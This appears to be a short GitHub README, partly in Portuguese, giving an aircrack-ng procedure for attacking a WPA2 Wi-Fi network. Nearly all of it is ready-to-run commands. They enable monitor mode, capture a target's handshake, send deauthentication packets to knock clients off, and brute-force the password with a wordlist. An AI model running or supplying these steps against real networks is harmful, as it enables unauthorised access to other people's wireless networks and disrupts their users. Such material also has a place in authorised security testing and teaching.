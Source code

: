 # Wifi-WPA2-Evil-Twin-Attack--aircrack-ng
![image](https://github.com/user-attachments/assets/0ce8e3d4-c42c-4ca3-8845-268b0c89843f)
![image](https://github.com/user-attachments/assets/a08cb55d-3a44-416b-8fd2-9d746264a2c9)

## 1. Capturar o Handshake
```bash
ifconfig wlan0 down
airmon-ng check kill
airmon-ng start wlan0
airodump-ng --essid-regex "Red*" -a wlan0mon
airodump-ng wlan0mon
mkdir wpa
cd wpa
airodump-ng --bssid BSSIDTARGET -c 11 -w cvr wlan0mon
```
2-Desautenticar para forçar o handshake
```bash
aireplay-ng -0 1 -a TARGETBSSID wlan0mon
# -0 = tipo do ataque (deauth)
# 1 = número de pacotes de desautenticação
# -a 00:17:9A:35:53:22 = Access Point (BSSID)
```

3-Brute force
```bash
aircrack-ng -b TARGETBSSID -w /usr/share/wordlists/dirb/big.txt cvr-01.cap
```

